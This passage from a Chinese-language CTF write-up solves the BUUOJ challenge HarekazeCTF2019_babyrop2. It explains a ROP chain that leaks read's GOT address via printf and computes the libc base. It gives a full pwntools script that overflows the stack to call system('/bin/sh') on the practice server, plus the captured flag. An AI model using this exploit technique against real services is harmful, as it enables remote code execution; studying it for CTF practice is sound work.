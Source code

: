 看`Write Up`的时候发现有些师傅利用格式化字符串，构造出`printf("%s", read_got)`泄露`read`函数的`got`表地址。`%s`的地址为`0x400770`。`p64(rdi_ret)+p64(format_str)`将`b'a'*offset`造成栈溢出后的返回地址覆盖为`pop_rdi; ret`，`pop_rdi`对应参数为`format_str`，执行后将`format_str`赋值给`rdi`，之后执行`ret`返回指令。`p64(pop_rsi)+p64(read_got)+p64(0)`是上个`ret`要执行的，将`rsi`寄存器的值设置成`read`函数的`got`表地址，用不着`r15`就设置为`0`。`pop_rsi`的`ret`返回到`p64(printf_plt)`，利用`printf`函数输出`read`函数的`got`表地址。在获得`read`函数的`got`表地址后，我们需要用`p64(main)`回到程序开头。

```assembly
.rodata:0000000000400758 ; const char format[]
.rodata:0000000000400758 format          db 'What',27h,'s your name? ',0
.rodata:0000000000400758                                         ; DATA XREF: main+44↑o
.rodata:000000000040076B                 align 10h
.rodata:0000000000400770 ; const char aWelcomeToThePw[]
.rodata:0000000000400770 aWelcomeToThePw db 'Welcome to the Pwn World again, %s!',0Ah,0
.rodata:0000000000400770                                         ; DATA XREF: main+80↑o
.rodata:0000000000400770 _rodata         ends
```

编写`Python`代码求解，`cat /home/babyrop2/flag`得到`flag{ca63fb55-fa76-4655-994d-6bca048f1748}`。

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
io = remote('node4.buuoj.cn', 27378)
elf = ELF('./HarekazeCTF2019_babyrop2')
main = elf.sym['main']
printf_plt = elf.plt['printf']
read_got = elf.got['read']
rdi_ret = 0x400733 # pop rdi ; ret
pop_rsi = 0x400731 # pop rsi ; pop r15 ; ret
format_str = 0x400770
offset = 0x20 + 0x8
payload = b'a'*offset + flat(rdi_ret, format_str, pop_rsi, read_got, 0, printf_plt, main)
io.sendlineafter(b"What's your name? ", payload)
read_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
log.info('read_address => %s', hex(read_addr))
libc = ELF('./libc.so.6')
libcbase = read_addr-libc.sym['read']
log.info('libc_address => %s', hex(libcbase))
system = libcbase + libc.sym['system']
log.info('system_address => %s', hex(system))
bin_sh = libcbase + libc.search(b'/bin/sh').__next__()
log.info('bin_sh_address => %s', hex(bin_sh))
payload = b'a'*offset + p64(rdi_ret) + p64(bin_sh) + p64(system)
io.sendlineafter(b"What's your name? ", payload)
io.interactive() # cat /home/babyrop2/flag
```

------

### [jarvisoj_tell_me_something](https://buuoj.cn/challenges#jarvisoj_tell_me_something)

先`file ./jarvisoj_tell_me_something`查看文件类型再`checksec --file=./jarvisoj_tell_me_something`检查了一下文件保护情况。
